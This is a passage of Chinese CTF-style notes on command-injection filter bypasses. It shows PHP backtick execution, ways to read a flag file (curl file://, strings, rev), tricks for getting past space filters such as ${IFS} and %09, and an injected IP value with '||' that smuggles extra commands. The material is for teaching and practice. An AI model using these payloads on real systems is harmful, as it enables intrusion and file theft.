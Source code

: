 ```text
echo `ls`;
echo $(ls);
?><?=`ls`;
?><?=$(ls);
```

#### 3.绕过读取文件的命令

**绕过方法**

```text
[root@kali flag123]# curl file:///flag123/flag
  flag{suifeng}
  [root@kali flag123]# strings flag 
  flag{suifeng}
  [root@kali flag123]# uniq -c flag
        1 flag{suifeng}
  [root@kali flag123]# bash -v flag
  flag{suifeng}
  flag: line 1: flag{suifeng}: command not found
  [root@kali flag123]# rev flag
  }gnefius{galf
  [root@kali flag123]#
```

find -- 列出当前目录下的文件以及子目录所有文件



![img](PictureFile/【Web】TOP漏洞.assets/v2-e8b6aecb76e6ddd4ba2c62a1cf725c52_720w.webp)

#### 4.绕过空格

```text
%09（url传递）(cat%09flag.php)
${IFS}
$IFS$9
<>（cat<>/flag）
<（cat</flag）
{cat,flag}
```

#### 5.过滤目录分割

```text
采用多管道命令绕过
127.0.0.1||cd flag_is_here;cat flag_262431433226364.php
```

![img](PictureFile/【Web】TOP漏洞.assets/v2-9d2fbc6a8bf15feb9ddc381cfdecd2f3_720w.webp)
